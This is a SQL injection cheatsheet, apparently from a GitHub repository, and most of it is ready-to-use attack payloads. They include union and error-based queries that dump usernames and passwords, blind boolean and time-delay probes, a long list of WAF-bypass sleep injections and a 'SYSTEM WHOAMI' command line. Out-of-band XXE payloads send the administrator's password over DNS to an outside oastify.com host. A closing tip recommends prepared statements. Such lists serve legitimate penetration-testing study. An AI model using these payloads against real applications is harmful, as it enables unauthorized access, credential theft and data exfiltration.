

# SQL Injection (SQLi) Cheatsheet

⚠️ **Alert:** This cheatsheet does not contain syntax for all SQL languages. You can understand the logic from here and apply it by yourself. For exact syntax, visit the [PortSwigger SQLi Cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

---

## What is SQL Injection?

SQL Injection (SQLi) is a vulnerability where an attacker interferes with the SQL queries an application makes to its database. This can lead to unauthorized access, data modification, or even taking control of the server.

---

## Impact of SQL Injection Attacks

1. **Unauthorized Access:** Attacker can access sensitive data like usernames, passwords, and credit card info.  
2. **Data Manipulation:** Attacker can modify, delete, or corrupt data.  
3. **Service Disruption:** Attacker can crash the database or make it unavailable.  
4. **Remote Code Execution:** In severe cases, an attacker can execute commands on the server.  

---

## Types of SQL Injection


---

### In-Band SQL Injection

In-band SQLi happens when the attacker uses the same communication channel to send the attack and receive results. This is the easiest and most common type of SQLi.

- Data is often shown directly on the web page.  
- Easier to exploit compared to other types of SQLi.  
- Two common types of in-band SQLi:  
  - Error-based SQLi  
  - Union-based SQLi  

---

#### 1. Error-Based SQL Injection

This technique makes the database generate an error message, which gives the attacker useful information.

**Payloads:**
```sql 
' AND CAST((SELECT 1) AS int)--  
' AND CAST((SELECT password FROM users LIMIT 1) AS bool)--  
' AND CAST((SELECT password FROM users LIMIT 1 OFFSET 0) AS bool)--  
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--  
```
---

#### 2. Union-Based SQL Injection

This technique uses the `UNION` SQL operator to combine results from two queries into one response.

**Payloads:**  

**Step 1: Check Number of Columns**  
```sql 
' ORDER BY 1--  
' UNION SELECT NULL, NULL-- 
``` 
**Step 2: Check Data Types (if needed)**  
```sql  
' UNION SELECT 'batman', NULL, NULL--  
' UNION SELECT NULL, 'batman', NULL--  
' UNION SELECT NULL, NULL, 'batman'--  
' UNION SELECT 'a', 1 FROM dual--  
```
**Step 3: Find Table Names**  
```sql   
' UNION SELECT table_name, NULL FROM information_schema.tables--  
' UNION SELECT table_name FROM all_tables--  
```
**Step 4: Find Column Names**  
```sql   
' UNION SELECT column_name, NULL FROM information_schema.columns--  
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users'--  
' UNION SELECT column_name, NULL FROM all_tab_columns--  
' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name = 'users'--  
```
**Step 5: Dump Data**  
```sql  
' UNION SELECT username, password FROM users--  
' UNION SELECT username || ':' || password, NULL FROM users--  
```
---

### Blind (Inferential) SQL Injection

In blind SQLi, no data is directly shown on the web page. Instead, the attacker observes how the application behaves to infer information.

- Just as dangerous as in-band SQLi.  
- Takes longer to exploit.  
- Two types of blind SQLi:  
  - Boolean-based SQLi  
  - Time-based SQLi  

---

#### 1. Boolean-Based SQL Injection

This technique checks if a condition is true or false by observing different application responses.

**Payloads:** 
```sql  
' AND 1=1--  
' or (SELECT LENGTH(password) FROM users WHERE username = 'administrator') = 32--
' or (select length((select password from users where username = 'administrator'))) = 32-- 
' AND SUBSTRING((SELECT username FROM users WHERE username = 'administrator'), 1, 1) = 'a'--  

'||(SELECT 'hello')||'  
'||(SELECT '' FROM dual)||'  
'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE NULL END FROM dual)--  
```
---

#### 2. Time-Based SQL Injection

This technique makes the database pause for a set amount of time, which helps determine if a condition is true.

**Payloads:** 
```sql  
'||pg_sleep(10)||'  
'||sleep(10)||'  
'||(SELECT sleep(10))||'  
'||(SELECT pg_sleep(10))||'  

'||(SELECT CASE WHEN ((SELECT LENGTH(username) FROM users WHERE username='administrator')=1) THEN pg_sleep(10) ELSE pg_sleep(0) END)||'  
```

---

## Out-of-Band SQL Injection

This type of SQLi triggers an out-of-band network connection to a system controlled by the attacker.

- Less common but powerful.  
- Uses protocols like DNS or HTTP.  

**Payloads:**
```sql  
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://1suq662zugex0quam6iqkwqbn2tthj58.oastify.com"> %remote;]>'),'/l') FROM dual--  

' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://' || (SELECT password FROM users WHERE username='administrator') || '.ccs1qhmaery8k1el6h2147am7dd41xpm.oastify.com"> %remote;]>'),'/l') FROM dual--  
```
---

## 🧠 Advanced Blind SQLi Payloads

**Find Current Database Name:**  
```sql  
SELECT SUBSTRING((SELECT DATABASE()),1,1);
a' union select null,null,null where database() like 'sqli_three%';#
```
**Verify current database:***
```sql
select database()='avengers';#
a' union select null,null,null where database() = 'sqli_three';#
```
**Find length of current db:**  
```sql  
SELECT LENGTH((SELECT DATABASE()));
```
**Display All Databases:**  
```sql 
SELECT SUBSTRING((SELECT schema_name FROM information_schema.schemata LIMIT 1 OFFSET 4),1,1);  
```
**Find Table Names:**  
```sql 
SELECT SUBSTRING((SELECT table_name FROM information_schema.tables LIMIT 1 OFFSET 10),1,1);
admin' and (select length(table_name) from information_schema.tables where table_schema = 'sqlithree' limit 1) = 1;#
select substring(table_name,1,1) from information_schema.tables limit 1 offset 10;
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
a' union select null,null,null from information_schema.tables where table_schema='sqli_three' and table_name like 'users%' limit 1;#
```
**Verify Table Names:**
```sql
a' union select null,null,null from information_schema.tables where table_schema='sqli_three' and table_name = 'users' limit 1;#
```
**Find number of tables present in current db:**  
```sql
SELECT COUNT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE();
```
**Count number of entries in a column**
```sql
select count(column_name) from information_schema.columns where table_schema='avengers' and table_name='users';
select count(username) from users;
```
**Find length of each table:**  
```sql
SELECT LENGTH(table_name) FROM information_schema.tables WHERE table_schema = DATABASE() LIMIT {i},1;
```
**Find Table Names:**
```sql
admin' and (select length(table_name) from information_schema.tables where table_schema = 'sqlithree' limit 1) = 1;#
a' union select null,null,null from information_schema.tables where table_schema='sqli_three' and table_name like 'users%' limit 1;#
```
**Find Column Names:**  
```sql 
SELECT SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1 OFFSET 3),1,1);  
```
**Dump Data:**  
```sql  
SELECT SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1);
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users;--  
```
---

## Combination SQLi Payloads

These payloads combine multiple SQLi techniques like authentication bypass, time delays, conditional queries, string concatenation, and WAF evasion.

**Simple Authentication Bypass:**  
```sql
'
"
' and 1=1#
" and 4=4;#
' and 2=2;--
' or 1=1--  
' or 1=2--  
```
**Conditional Queries:**  
```sql
SELECT IF(YOUR-CONDITION-HERE, (SELECT table_name FROM information_schema.tables), 'a')  
SELECT IF(1=1, SLEEP(5), 'a')  
SELECT SLEEP(10), NULL  
```
**Time-Based Blind SQLi:**  
```sql
SELECT IF(NOW()=SYSDATE(), SLEEP(5), 'a')  
SELECT IF(NOW()=SYSDATE(1), SLEEP(5), 'a')  
SELECT IF(NOW()=SYSDATE(), SLEEP(5), SLEEP(10))
sleep(5)#
1 or sleep(5)#
" or sleep(5)#
' or sleep(5)#
" or sleep(5)="
' or sleep(5)='
1) or sleep(5)#
") or sleep(5)="
') or sleep(5)='
1)) or sleep(5)#
SELECT IF(1=1, SLEEP(5), 'a');
' SELECT IF(1=1, SLEEP(5), 'a');
SELECT SLEEP(10),null
' SELECT SLEEP(10),null
' select if(now()=sysdate(),sleep(5),'a');
select if(now()=sysdate(),sleep(5),'a');
select if(now()=sysdate(),sleep(5),sleep(10));
' select if(now()=sysdate(),sleep(5),sleep(10));
" select if(now()=sysdate(),sleep(5),sleep(10));
'XOR(if(now()=sysdate(),sleep(5),0))XOR'
"XOR(if(now()=sysdate(),sleep(5),0))XOR"
'XOR(if(now()=sysdate(),sleep(5),sleep(10)))XOR'
';(select if(now()=sysdate(1),sleep(5),sleep(10)));#
';(select if(now()=sysdate(1),sleep(5),sleep(10)));-- 
';(select if(now()=sysdate(),sleep(5),'a'));#
";(select if(now()=sysdate(),sleep(5),'a'));#
' select 'hel'||(select sleep(10))||'lo';
" select 'hel'||(select sleep(10))||'lo';
'||(select sleep(10))||'
"||(select sleep(10))||"
'||pg_sleep(2)||'
"||pg_sleep(2)||"
'XOR(pg_sleep(2))XOR'
'XOR(sleep(10))XOR'
"XOR(pg_sleep(2))XOR"
';select sleep(2)'
' union select (sleep(3));
" union select (sleep(3));
")) or sleep(5)="
')) or sleep(5)='
;waitfor delay '0:0:5'--
);waitfor delay '0:0:5'--
';waitfor delay '0:0:5'--
";waitfor delay '0:0:5'--
');waitfor delay '0:0:5'--
");waitfor delay '0:0:5'--
));waitfor delay '0:0:5'--
'));waitfor delay '0:0:5'--
"));waitfor delay '0:0:5'--
benchmark(10000000,MD5(1))#
1 or benchmark(10000000,MD5(1))#
" or benchmark(10000000,MD5(1))#
' or benchmark(10000000,MD5(1))#
1) or benchmark(10000000,MD5(1))#
") or benchmark(10000000,MD5(1))#
') or benchmark(10000000,MD5(1))#
1)) or benchmark(10000000,MD5(1))#
")) or benchmark(10000000,MD5(1))#
')) or benchmark(10000000,MD5(1))#
pg_sleep(5)--
1 or pg_sleep(5)--
" or pg_sleep(5)--
' or pg_sleep(5)--
1) or pg_sleep(5)--
") or pg_sleep(5)--
') or pg_sleep(5)--
1)) or pg_sleep(5)--
")) or pg_sleep(5)--
')) or pg_sleep(5)--
AND (SELECT * FROM (SELECT(SLEEP(5)))bAKL) AND 'vRxe'='vRxe
AND (SELECT * FROM (SELECT(SLEEP(5)))YjoC) AND '%'='
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)--
AND (SELECT * FROM (SELECT(SLEEP(5)))nQIP)#
SLEEP(5)#
SLEEP(5)--
SLEEP(5)="
SLEEP(5)='
or SLEEP(5)
or SLEEP(5)#
or SLEEP(5)--
or SLEEP(5)="
or SLEEP(5)='
waitfor delay '00:00:05'
waitfor delay '00:00:05'--
waitfor delay '00:00:05'#
benchmark(50000000,MD5(1))
benchmark(50000000,MD5(1))--
benchmark(50000000,MD5(1))#
or benchmark(50000000,MD5(1))
or benchmark(50000000,MD5(1))--
or benchmark(50000000,MD5(1))#
pg_SLEEP(5)
pg_SLEEP(5)--
pg_SLEEP(5)#
or pg_SLEEP(5)
or pg_SLEEP(5)--
or pg_SLEEP(5)#
'\"
AnD SLEEP(5)
AnD SLEEP(5)--
AnD SLEEP(5)#
&&SLEEP(5)
&&SLEEP(5)--
&&SLEEP(5)#
' AnD SLEEP(5) ANd '1
'&&SLEEP(5)&&'1
ORDER BY SLEEP(5)
ORDER BY SLEEP(5)--
ORDER BY SLEEP(5)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)#
(SELECT * FROM (SELECT(SLEEP(5)))ecMj)--
+benchmark(3200,SHA1(1))+'
+ SLEEP(10) + '
RANDOMBLOB(500000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(500000000/2))))
RANDOMBLOB(1000000000/2)
AND 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
OR 2947=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
SLEEP(1)/*' or SLEEP(1) or '" or SLEEP(1) or "*/  
```
**WAF Bypass Payloads:**  
```sql
'XOR(IF(NOW()=SYSDATE(), SLEEP(5), 0))XOR'  
'XOR(IF(NOW()=SYSDATE(), SLEEP(5), SLEEP(10)))XOR'  
';(SELECT IF(NOW()=SYSDATE(1), SLEEP(5), SLEEP(10)));#  
';(SELECT IF(NOW()=SYSDATE(), SLEEP(5), 'a'));#  
```
**System Command Execution:**  
```sql
';SYSTEM WHOAMI;#  
```
**Union-Based SQLi:** 
```sql
' UNION SELECT (SLEEP(3))--  
SELECT 'hello'--  
SELECT 'hel' || (SELECT SLEEP(10)) || 'lo'--  
SELECT 'hel' || (SELECT password FROM users WHERE username='administrator') || 'lo'--  
'||(SELECT password FROM users WHERE username='administrator')||'  
'||(SELECT SLEEP(10))||'  
```
---

🧠 **Pro Tip:** Always use prepared statements and parameterized queries to prevent SQLi. Tools like [SQLMap](https://sqlmap.org/) can help with automated testing, but understanding the logic here will help you a lot.

---
